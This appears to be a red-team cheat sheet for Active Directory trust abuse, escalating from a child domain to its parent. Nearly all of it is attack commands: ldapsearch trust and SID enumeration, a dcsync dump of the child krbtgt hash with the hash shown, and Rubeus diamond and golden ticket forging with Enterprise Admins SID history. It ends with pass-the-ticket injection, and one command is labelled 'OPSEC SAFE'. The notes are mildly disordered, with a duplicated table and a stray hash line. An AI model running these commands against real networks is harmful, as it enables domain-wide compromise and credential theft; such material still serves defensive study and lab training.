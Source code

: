 
| Value | Trust Direction                 |
| ----- | ------------------------------- |
| 0     | `TRUST_DIRECTION_DISABLED`      |
| 1     | `TRUST_DIRECTION_INBOUND`       |
| 2     | `TRUST_DIRECTION_OUTBOUND`      |
| 3     | `TRUST_DIRECTION_BIDIRECTIONAL` |

| Value | Trust Direction                 |
| ----- | ------------------------------- |
| 0     | `TRUST_DIRECTION_DISABLED`      |
| 1     | `TRUST_DIRECTION_INBOUND`       |
| 2     | `TRUST_DIRECTION_OUTBOUND`      |
| 3     | `TRUST_DIRECTION_BIDIRECTIONAL` |

```powershell
39610acedf7a66db295ee28263e7ad75234ae7884dbde20a4890bf97f7b8872b

execute-assembly ~/opt/Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /sids:S-1-5-21-1470357062-2280927533-300823338-519 /krbkey:39610acedf7a66db295ee28263e7ad75234ae7884dbde20a4890bf97f7b8872b /nowrap
```
##### Child to Parent Abuse

Enumerate trusts in place
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustPartner,trustDirection,trustAttributes,flatName
```

Obtain krbtgt AES256 hash of the child domain
```powershell
dcsync dublin.contoso.com DUBLIN\krbtgt

2eabe80498cf5c3c8465bb3d57798bc088567928bb1186f210c92c1eb79d66a9
```

Obtain child domain SID and parent domain SID
```powershell
ldapsearch (objectClass=domain) --attributes objectSid

ldapsearch (objectClass=domain) --attributes objectSid --hostname lon-dc-1.contoso.com --dn DC=contoso,DC=com
```

Create diamond ticket (OPSEC SAFE) or a golden ticket offline
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /sids:S-1-5-21-3926355307-1661546229-813047887-519 /krbkey:2eabe80498cf5c3c8465bb3d57798bc088567928bb1186f210c92c1eb79d66a9 /nowrap

C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /user:Administrator /domain:dublin.contoso.com /sid:[Child SID] /sids:[Parent EA GROUP SID] /aes256:[Child KRBTGT HASH] /outfile:C:\Users\Attacker\Desktop\golden
```

Inject ticket into current session
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

kerberos_ticket_use C:\Users\Attacker\Desktop\[TICKET]
```